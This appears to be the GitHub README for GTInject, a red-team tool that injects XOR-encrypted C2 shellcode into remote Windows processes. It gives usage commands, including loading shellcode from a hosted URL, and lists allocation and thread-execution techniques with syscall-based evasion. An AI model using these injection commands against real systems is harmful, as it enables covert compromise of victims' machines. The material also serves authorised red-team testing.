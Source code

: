 # GTInject
**Portable and Modular Remote Process Injection**

Remote process injection in C2 frameworks are often limited to one or two techniques built by the beacon developer. This tool is designed to offer mix and match memory allocation and thread execution techniques for process injection, with the goal of being portable accross C2 systems. 

It is largely inspired by the flexibility given within Brute Ratel, which made other C2 injection options feel extremely limited. I wanted to recreate that functionality for other C2s that I like using. 



## GTInject.exe Help Menu

## Usage: GTInject.exe \<module> \<moduleArgs>
       GTInject.exe threads
       GTInject.exe encrypt pathToSource.bin MySecretXorKey
       GTInject.exe inject memoryOption execOption xorkey binSrcType binSourcePath PID TID

       GTInject.exe inject 100 100 SecretKey123 disk "C:\path\to\xordShellcode.file" 1234 321

## Encrypt  -- for encrypting shellcode:
**Do this in preparation, NOT on the C2 victim machine.**

       GTInject.exe encrypt pathToSource.bin MySecretXorKey

Shellcode from your C2 will be multibyte XOR'd and written in various formats.

This is intended to help you use the injection option later with better OpSec.

## Threads  -- check for alertable threads:

       GTInject.exe threads


This will list alertable threads in all processes that you have access to. This is intended to help identify alertable threads, for injection options like QueueUserAPC.

By default, it filters out low and untrusted process integrities. 

Options include `GTinject.exe threads <all or alertable> <optional PID filter>` 

So you could show all threads in a process with `GTInject.exe threads all 4321`


## Inject   -- choose a process injection method

       GTInject.exe inject memoryOption execOption xorkey binSrcType binSourcePath PID TID

       GTInject.exe inject 100 100 SecretKey123 disk "C:\path\to\xordShellcode.file" 1234 321

Choose a technique integer for allocating the memory.

Then choose a technique integer for executing the thread.

Enter the XorKey to decrypt it with, the same one you used to encrypt the shellcode using the **encrypt** module.

Specify a location type where the encrypted shellcode is stored. Acceptable values are
- embedded 0
- url https://example.globetech.biz/hostedShellcode.b64
- disk 'C:\path\to\xord-shellcode.bin'

Specify the PID you want to inject into.

OPTIONALLY specify the TID (not all options need a Thread ID).

## Call Categories
- 100 Series - WINAPI
- 200 Series - NTAPI 
- 300 Series - Syscalls
- 400 Series - Misc or Novel Techniques

## Memory Options
        100. WINAPI  -- VirtualAllocEx, WriteProcessMemory
        200. NTAPI   -- NtCreateSection, NtMapViewOfSection, RtlCopyMemory
        201. NTAPI   -- NtAllocateVirtualMemory, NtProtectVirtualMemory, NtWriteVirtualMemory
        300. SysCall -- Direct, NtAllocateVirtualMemory, NtProtectVirtualMemory, NtWriteVirtualMemory 
        301. SysCall -- Direct, NtCreateSection, NtMapViewOfSection, RtlCopyMemory
        302. SysCall -- Indirect, NtAllocateVirtualMemory, NtProtectVirtualMemory, NtWriteVirtualMemory
        303. SysCall -- Indirect, NtCreateSection, NtMapViewOfSection, RtlCopyMemory

## ThreadExec Options
        100. WINAPI  -- CreateRemoteThread
        101. WINAPI  -- QueueUserAPC, ResumeThread - Must Specify Thread ID
        102. WINAPI  -- GetThreadContext, SetThreadContext - Thread ID Optional
        200. NTAPI   -- NtCreateThreadEx
        201. NTAPI   -- RtlCreateUserThread
        202. NTAPI   -- NtQueueApcThread, NtResumeThread - Must Specify Thread ID
        203. NTAPI   -- NtGetContextThread, NtSetContextThread - Thread ID Optional
        300. SysCall -- Direct, NtCreateThreadEx
        301. SysCall -- Direct, NtQueueApcThread, NtResumeThread - Must Specify Thread ID
        302. SysCall -- Indirect, NtCreateThreadEx
        303. SysCall -- Indirect, NtQueueApcThread, NtResumeThread - Must Specify Thread ID
        304. Syscall -- Direct, NtGetContextThread, NtSetContextThread - Thread ID Optional
        305. Syscall -- Indirect, NtGetContextThread, NtSetContextThread - Thread ID Optional
        400. Novel   -- ThreadlessInject, CreateEventW - does not honor memory option
        401. Novel   -- ThreadlessInject, LoadLibraryExW - does not honor memory option